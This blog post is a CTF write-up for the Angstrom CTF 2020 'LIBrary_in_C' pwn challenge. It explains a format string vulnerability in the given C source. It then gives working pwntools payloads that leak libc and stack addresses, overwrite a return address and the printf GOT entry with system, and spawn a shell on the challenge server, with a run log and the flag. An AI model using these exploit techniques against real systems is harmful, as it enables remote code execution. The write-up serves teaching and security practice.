

I recently took part in Angstrom CTF 2020, together with my team DISsect@CTU. As usual, I focused on the pwn category and I decided to share write-up of the most interesting challenge with you int this blog post. The challenges are still online and working, just like PicoCTF, so I encourage you to go ahead and try them.
LIBrary_in_C write-up
ctf: Angstrom CTF 2020
category: pwn
points: 120
Task

We are given a binary, source and used libc.so.6.
TLDR;
Format string vulnerability to leak stack and libc addresses. Overwrite return address to return to main for more input opportunities. Overwrite printf GOT with system and send /bin/sh\x00 as next payload. (Not the easiest way)
Vulnerability
Since we are given source for the file, searching for vulnerability is fairly easy, we can see that we have two opportunities to use format string vulnerability in two vulnerable printf calls:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
int main() {
setvbuf(stdout, NULL, _IONBF, 0);
gid_t gid = getegid();
setresgid(gid, gid, gid);
char name[64];
char book[64];
puts("Welcome to the LIBrary in C!");
puts("What is your name?");
fgets(name, 64, stdin);
// printf works just like System.out.print in Java right?
printf("Why hello there ");
printf(name); <- here
puts("And what book would you like to check out?");
fgets(book, 64, stdin);
printf("Your cart:\n - ");
printf(book); <- here
puts("\nThat's great and all but uh...");
puts("It turns out this library doesn't actually exist so you'll never get your book.");
puts("Have a nice day!");
}
Running rabin2 reveals that binary is 64bit, compiled with canaries, but that is not a concern, since with format strings we can cherry pick the addresses we want to write to. Also, the binary does not use position independent code, which discloses the GOT addresses for us.
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# rabin2 -I library_in_c
arch x86
baddr 0x400000
binsz 6790
bintype elf
bits 64
canary true
class ELF64
compiler GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath NONE
sanitiz false
static false
stripped false
subsys linux
va true
printf function determines the number of arguments by the format string argument (by the number of % sequences). It expects the following arguments to be stored on the stack even in the 64bit calling convention. Since our buffer used as the format string for this printf call is also stored on the stack, we can not only print the contents of the stack, but with %n, control the destination of our future writes.
Exploit
Argument find
In order to exploit this, we first need to find the order of argument, which we can use to refer to the start of our buffer. Since the executable is 64bit, it will take arguments as quad words from the stack. I wrote a simple script which uses glibc’s i$ notation to refer to the i-th argument and print it as a hexadecimal quadword:
from pwn import *
for i in range(1,256):
r = process('./library_in_c')
r.sendline(f'AAAAAAAA %{i}$p')
s = r.recv()
print(f'{i} => {s}')
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
8 => b'Welcome to the LIBrary in C!\nWhat is your name?\nWhy hello there AAAAAAAA 0x4141414141414141\nAnd what book would you like to check out?\n'
Then I slightly modified it for the second printf call.
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 discover.py | grep '0x4141'
16 => b"Your cart:\n - AAAAAAAA 0x4141414141414141\n\nThat's great and all but uh...\nIt turns out this library doesn't actually exist so you'll never get your book.\nHave a nice day!\n"
So now I know, that first quadword(8 bytes) of my buffer is stored as 8th(16th) argument for the first (second) printf call. Next 8 bytes are the 9th(17th) argument. We will use this when overwriting.
stack and libc leak
In this part I will explain how I leaked the libc and stack addreses.
Our vulnerable printf calls are in main function. Main is initiated from __libc_start_main function, which is a part of libc. We will use the fact that the return adress for main, stored further on the stack, is address to __libc_start_main. This address is stored as
27th argument for our printf call. I also wanted to leak some reliable stack address. After some debugging, I chose the address corresponding to 24th argument.
Thus my first payload that leaks addresses looks as follows:
payload_leak = '%24$p %27$p'
This payload gets us two addresses that we need to further process to get the ones that we desire. To get the address of system in current process memory, we do the following.
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']
0xf0 is the offset in __libc_start_main. libc_leak is the address stored as return address for main
ret2main
At the time I was exploiting this challenge, I didn’t realise I can use one gadget and jmp straight to libc to execve('/bin/sh'). Thus, I wanted to return to main to give myself another round of format string inputs. To do this, I computed the address where the main’s return address is stored and with second printf call, I wrote main’s address. This way, after finishing main, we jump back to main again.
Obtaining the pointer to return address(at stack) for main, storing it as ret_addr was done using stack address leaked in previous step and subtracting constant from it (I don’t know where was the leaked address meant to be pointing, but it was a constant offset from ret_addr, so I used it)
payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)
Let’s have a look at the payload closer:
writes 0x00000000 to ret_addr + 4
|
| writes 0x0040 to ret_addr + 2
| |
| | writes 0x0747 to ret_addr
| | |
__|__ __|_____ _____|______ ___ <----- rest is padding
%20$n%64s%21$hn%1799s%22$hn '
This causes ret_addr now contains 0x0000000000400747, which is the address of main.
GOT overwrite
In previous section I had to write known address to unknown place. This time it’s going to be the other way around. We will be writing the leaked libc_system address to known GOT entry of printf. I decided to only overwrite the lower 3 bytes, since the higher bytes had to remain the same from printf. I first wrote the higher byte and then the remaining two as a word.
def write(what, where):
what = what & 0xffffff
hi_byte = what >> 16
low_word = what & 0xffff
log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')
payload = b'%12$'
payload += str(hi_byte).encode()
payload += b's%12$hhn'
payload += b'%12$'
payload += str(low_word -hi_byte).encode()
payload += b's%13$hn'
payload += (32-len(payload))*b' '
payload += p64(where+2)
payload += p64(where)
return payload
After sending this payload to the first printf call, each of the following printf calls will actually call system instead of printf. We overwrote it’s GOT entry.
Putting it all together
How the final exploit is executed:
- leak the addreses for future payloads
- overwrite the return address to return to main
- after returning to main, use additional
printfcall to overwriteGOT. - the next
printfcall will actually be asystemcall. But wait, the next ‘printfis again called with our input as it’s only argument, so we can simply send/bin/sh\x00andsystem('/bin/sh')gets executed.
root@kali:~/CTFs/Angstrom2020/pwn/library_in_c# python3 xplt.py
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/library_in_c'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
[*] '/root/CTFs/Angstrom2020/pwn/library_in_c/libc.so.6'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
[+] Opening connection to shell.actf.co on port 20201: Done
[*] return address stored at 0x7ffea5436a18
[*] libc at 0x7f80bb20b000
[*] payload to ret2main b'%20$n%64s%21$hn%1799s%22$hn \x1cjC\xa5\xfe\x7f\x00\x00\x1ajC\xa5\xfe\x7f\x00\x00\x18jC\xa5\xfe\x7f\x00\x00'
[*] returning to main
[*] printing 37 to 6295602 and 912 to 6295600
[*] sending overwrite payload b'%12$37s%12$hhn%12$875s%13$hn 2\x10`\x00\x00\x00\x00\x000\x10`\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
%\xbb\x80\x7f 2\x10And what book would you like to check out?
sh: 1: Your: not found
sh: 2: -: not found
$ ls
flag.txt
library_in_c
library_in_c.c
$ cat flag.txt
actf{us1ng_c_15_n3v3r_4_g00d_1d34}
Exploit listing
from pwn import *
def write(what, where):
what = what & 0xffffff
hi_byte = what >> 16
low_word = what & 0xffff
log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')
payload = b'%12$'
payload += str(hi_byte).encode()
payload += b's%12$hhn'
payload += b'%12$'
payload += str(low_word -hi_byte).encode()
payload += b's%13$hn'
payload += (32-len(payload))*b' '
payload += p64(where+2)
payload += p64(where)
return payload
def check_payload(payload):
if b'\n' in payload:
log.error('error, payload contains newline')
context.log_level = "info"
elf = ELF('./library_in_c')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']
#r = process('./library_in_c')
r = remote('shell.actf.co', 20201)
#r = remote('localhost', 8080)
payload_leak = '%24$p %27$p'
r.sendline(payload_leak)
s = r.recvline()
s = r.recvline()
s = r.recvline()
stack_leak = int(s.split(b' ')[-2], 16)
ret_addr = stack_leak -216
libc_leak = int(s.split(b' ')[-1], 16)
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']
log.info(f'return address stored at {hex(ret_addr)}')
log.info(f'libc at {hex(libc_address)}')
payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)
log.info(f'payload to ret2main {payload_ret2main}')
log.info('returning to main')
r.sendline(payload_ret2main)
s = r.recv()
payload_overwrite_got = write(libc_system, elf.symbols['got.printf'])
log.info(f'sending overwrite payload {payload_overwrite_got}')
r.sendline(payload_overwrite_got)
r.sendline(b'/bin/sh\x00')
r.recv()
r.interactive()